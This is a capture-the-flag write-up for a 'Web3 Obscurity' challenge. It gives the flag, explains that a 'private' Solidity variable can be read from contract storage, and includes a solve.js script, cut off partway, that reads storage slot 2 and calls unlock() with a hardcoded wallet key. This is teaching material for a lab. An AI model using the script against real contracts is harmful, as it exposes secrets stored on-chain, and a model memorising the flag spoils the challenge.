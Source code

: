 
## 🧾 Final Solution

The flag obtained upon successful execution was:

**THM{web3_obscurity}**

---


## 🧩 Summary 
The challenge `Web3 Obscurity` tested the understanding of Solidity's storage layout. Even though a variable (`code`) was declared `private`, its value was still retrievable directly from the blockchain's storage. By identifying the correct storage slot (`slot 2` for `code`), we could read its value using `ethers.js`'s `getStorage` method. This `code` was then used as an argument to the `unlock` function, which in turn set `unlock_flag` to `true`, allowing the `getFlag` function to be called and the flag to be retrieved.

---


## Smart Contract Code (Challenge.sol)

---

## Solution Script (solve.js)

```javascript
const { ethers } = require("ethers");

const RPC_URL = "http://<ip>:8545";  // Your provided RPC
const provider = new ethers.JsonRpcProvider(RPC_URL);

// Your wallet details
const privateKey = "0xad7791c6c55e81789fbadabeef3b2584546cd2b30d727fb1bb0b017706792af2";
const wallet = new ethers.Wallet(privateKey, provider);

// Challenge contract address
const contractAddr = "0x74dae0A0e456C8556525c7f16fB07CD9c25b2127";

// ABI of relevant functions
const abi = [
  "function unlock(uint256 input) public returns (bool)",
  "function isSolved() public view returns (bool)",
  "function getFlag() public view returns (string)"
];

async function main() {
  try {
    // Step 1: Read storage slot 2 (uint256 private code)
    const raw = await provider.getStorage(contractAddr, 2);
    const code = ethers.toBigInt(raw);
    console.log("[*] Recovered code:", code.toString());

    // Step 2: Connect to contract
    const contract = new ethers.Contract(contractAddr, abi, wallet);

    // Step 3: Call unlock(code)
    console.log("[*] Calling unlock()...");
    const tx = await contract.unlock(code);
    await tx.wait();
    console.log("[+] Unlock transaction mined!");

    // Step 4: Verify and get flag
```